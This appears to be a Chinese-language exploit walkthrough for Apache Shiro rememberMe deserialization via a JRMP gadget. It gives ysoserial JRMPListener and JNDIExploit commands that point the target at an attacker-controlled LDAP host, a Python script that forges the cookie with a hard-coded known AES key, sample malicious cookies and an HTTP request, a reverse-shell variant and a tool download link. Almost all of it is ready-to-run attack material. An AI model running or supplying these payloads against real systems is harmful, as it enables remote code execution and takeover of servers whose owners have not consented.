 ## shiro JRMP gadget

第一步：

```
java -cp ysoserial-0.0.6-SNAPSHOT-1.8.3.jar  ysoserial.exploit.JRMPListener 8088 CommonsBeanutils2 "ldap://ip:1389/Basic/Command/Whoami"
```

第二步:

```
 java -jar JNDIExploit-1.0-SNAPSHOT.jar -i ip
```



第三步：**修改13行key和21的主机ip和端口是第一步的主机ip和端口**

```
import sys # http11InputBuffer
import uuid
import base64
import subprocess
from Crypto.Cipher import AES


def encode_rememberme(command):

    popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-1.8.3.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("4AvVhmFLUs0KTA3Kprsdag==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme("ip:8088")
    print("rememberMe={0}".format(payload.decode()))
```



第四步：**运行修改后第三步脚本**得到生成的cookie发包(某些环境可能使用burp存在问题，最好写个脚本之类的发包。)

```
rememberMe=vmWUdu7/R4y70YB6bHhacqcGLMLYDq4Pf6negfP9CyEJcp1ImtJv+1veBvuS7WxB5i/P9KRe+5qjdI2SAKWDM5LKY/0OrFP37NecjUbYUubeuN293QTNdEm1fKXWIDelGzB45ZxN6HYhLrwx8CJXBH6pHaqxvpofXWNYbnRgjfSrSqo7VIsQLngzrzm7iN62c6iqT7D6oWtQH6vFncEuCVT2o9UJCrRohpswDozdVRcoqObBI6USbSjToSj9g5Z+SzLOkWh4sqAp9DHeZ9OJho9k2grCTofPoOCxIeZ8fU68VjO8AoM7eIcu3l1pNH6wOfbtup+WfmeUv2+Cwyn4l850U9fFLRLLFmnNoILSk38tBk7h7q3hl8Cf+xKrIo21OhuyzR8GqZBEtbYT8sgloA==
```

![image-20211208130452912](https://raw.githubusercontent.com/SummerSec/Images/main/summersec//0u05er0ec/0u05er0ec.png)



```
GET /sip2/login HTTP/1.1
Content-Type: text/xml
User-Agent: Mozilla/5.0 (compatible; Baiduspider/2.0; +http://www.baidu.com/search/spider.html)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Cookie: rememberMe=M3GVUEJCRvGoNdd4QIMLF2K5k9OkALM4FUCAX7VIf8CoDzjvfhGGkiqDefOBvAF21SoZ38kS+/hvBoVzG8Ub++/6uNhNCFlb4sbGnjdiu4DIHcyPas5d9LLnAzrWbWPY0OO1ATuoH2i+DQddFjWJu9ToQwfDCgS+oJquqDguZsTOp5iRn5dB72+c73S1COuu5cjmmlfhPuADPq6v2NFVdHmOCipC1mj8Z8MNjIXZ+JpXi1TP4cEKufXVNE9mzDyxnzGCWr5Qo7taMQua+MpTHEPpUseASlACWHy0IxY1g5ZvI9/Kw2UY9kXdhlQM0dN4Q1O4neoSMvk/N/Muir8KeyH1FrCj+xhSxj9xSGzIOt5m5e8zjDxf7tMXWhRaPOXj7ckP4/ieI82OteoVrSQIVQ==
Host: ip


```



反弹shell：

```
java -cp ysoserial-0.0.6-SNAPSHOT-1.8.3.jar  ysoserial.exploit.JRMPListener 8088 CommonsBeanutils2 "ldap://{ip}:{port}/Basic/ReverseShell/{ip}/{port}"
```







## 工具下载地址：

[shiro-JRMP_gadget](https://github.com/SummerSec/BlogParpers/releases/download/shiro/shiro-JRMP_gadget.zip)

